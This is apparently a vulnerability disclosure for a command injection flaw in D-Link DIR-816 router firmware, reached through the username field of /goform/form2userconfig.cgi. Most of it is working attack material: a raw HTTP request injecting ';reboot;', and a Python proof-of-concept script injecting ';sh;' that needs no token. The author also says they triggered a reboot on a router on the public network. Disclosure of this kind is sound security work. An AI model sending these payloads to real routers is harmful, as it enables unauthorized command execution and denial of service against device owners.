




# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router ,**Firmware version is**  DIR816_A1_FW101CNB04

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_459EF0 ruction in IDA view



​	Select user account configuration under the maintenance option of router configuration.



​	 Different from dir-816a2_ FWv1.10CNB05_ R1b011d88210 firmware version this version only needs to close the  command with single quotation marks and then execute our command with a  semicolon ，don't even need to ask for a tokenid

```
POST /goform/form2userconfig.cgi HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: http://xxxx
Connection: close
Referer: http://xxxx/d_userconfig.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

username=123';reboot;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send
```

##### POC&&EXP

```python
import requests
import base64
headers={
	"Host":"192.168.33.9",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
	"Content-Type":"Content-Type",
	"Origin":"http://192.168.33.9",
	"Referer":"http://192.168.33.9/d_userconfig.asp",
	"Cookie":"curShow=",
	"Upgrade-Insecure-Requests":"1"
}
data={
	"username":"123';sh;'",#input Command
	"privilege":"2",
	"oldpass":"123",
	"newpass":"MTIz",
	"confpass":"MTIz",
	"deluser":"\xe5\x88\xa0\xe9\x99\xa4",
	"select":"s0",
	"hiddenpass":"192.168.33.9",
	"submit.htm?userconfig.htm":"Send",
	#"tokenid":"35005211"#Packet capture analysis
}
proxies={
'http':'127.0.0.1:8080',
'https':'127.0.0.1:8080'
}
#url="http://149.28.168.149/goform/form2systime.cgi"
url="http://192.168.33.9/goform/form2userconfig.cgi"
t=requests.post(url,headers=headers,data=data)
print t.text
```

##### TEST



​	GDB stops at the command we are about to execute

	Successfully executed sh

​	I successfully asked the router on the public network to execute the reboot command

